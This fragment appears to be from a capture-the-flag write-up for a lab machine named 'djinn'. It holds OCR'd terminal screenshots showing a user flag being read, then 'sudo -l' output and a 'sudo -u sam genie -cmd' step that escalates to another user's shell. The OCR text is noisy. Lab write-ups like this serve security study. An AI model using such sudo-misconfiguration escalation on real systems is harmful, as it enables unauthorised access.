 <img src="diginn/media/image14.png" style="width:6.96667in;height:3.64167in" alt="nitishödjinn:-/.dev$ cd Is -la drwxr-xr-x 5 drwxr-xr-x 4 drwxr-xr-x 2 total -rw -rw-r- drwx drwx -rw-r 32 1 2 3 1 nitish root root nitish nitish nitish nitish nitish nitish root root nitish nitish nitish nitish nitish 4096 4096 130 3771 4096 4096 4096 33 Nov NOV Nov NOV Nov oct Nov Nov 12 14 12 11 11 21 11 12 2019 2019 2019 2019 2019 2019 2019 2019 . bash_history . bashrc . cache . dev . gnupg user. txt nitishödjinn:-$ cat user. txt IOaay8289ptgguy1pvfa73alzusyyx3c nitishödjinn:-$ " />

<img src="diginn/media/image15.png" style="width:5.79167in;height:4.56667in" alt="sudo -I Matching Defaults entries for nitish on djinn: env_reset, mail_badpass, : /usr/local/bin\ : /usr/sbin\ :/us User nitish may run the following commands on djinn: (sam) NOPASSWD: /usr/bin/genie genie usage: genie [ -h] [ -g] [ -p SHELL] [ -e EXEC] wish genie: error: the following arguments are required: wish sudo -u sam genie -cmd new my man uid=løøø(sam) /bin/s: not found $ /bin/bahs /bin/sh: 3: /bin/bahs: not found $ /bin/bash 1 sa@dj inn : —$ " />
